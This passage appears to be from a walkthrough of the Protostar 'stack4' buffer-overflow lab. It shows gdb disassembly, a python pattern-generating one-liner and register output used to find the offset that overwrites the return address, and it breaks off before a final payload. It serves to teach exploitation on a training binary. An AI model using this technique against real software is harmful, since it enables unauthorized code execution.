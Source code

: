 The code simply asks for the execution of the function 'win'. For this the instruction pointer must be overwritten such that the address of the function 'win' is loaded onto the eip before the ret such that the function 'win' executes. Disassembling from gdb. Setting the breakpoint at the return instruction to examine the contents of the registers before exiting.

```
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <main+0>:        push   ebp
0x08048409 <main+1>:        mov    ebp,esp
0x0804840b <main+3>:        and    esp,0xfffffff0
0x0804840e <main+6>:        sub    esp,0x50
0x08048411 <main+9>:        lea    eax,[esp+0x10]
0x08048415 <main+13>:        mov    DWORD PTR [esp],eax
0x08048418 <main+16>:        call   0x804830c <gets@plt>
0x0804841d <main+21>:        leave  
0x0804841e <main+22>:        ret    
End of assembler dump.
(gdb) break *main+22
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
```

Initially accuracy is not required therefore printed A to Z all characters in sets of 4 for easy identification in the stack. These characters are then put in a file in the home directory using python.

```
python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"' | cat > hello
```

Now we can run using this as the input by redirecting the file to r in gdb.

```
(gdb) r < ~/hello
Starting program: /opt/protostar/bin/stack4 < ~/hello
Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x5353535b
) at stack4/stack4.c:16
16        stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) info registers
eax            0xbffff770        -1073744016
ecx            0xbffff770        -1073744016
edx            0xb7fd9334        -1208118476
ebx            0xb7fd7ff4        -1208123404
esp            0xbffff7bc        0xbffff7bc
ebp            0x53535353        0x53535353
esi            0x0        0
edi            0x0        0
eip            0x804841e        0x804841e <main+22>
eflags         0x200246        [ PF ZF IF ID ]
cs             0x73        115
ss             0x7b        123
ds             0x7b        123
es             0x7b        123
fs             0x0        0
gs             0x33        51
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0x54545454 in ?? ()
```
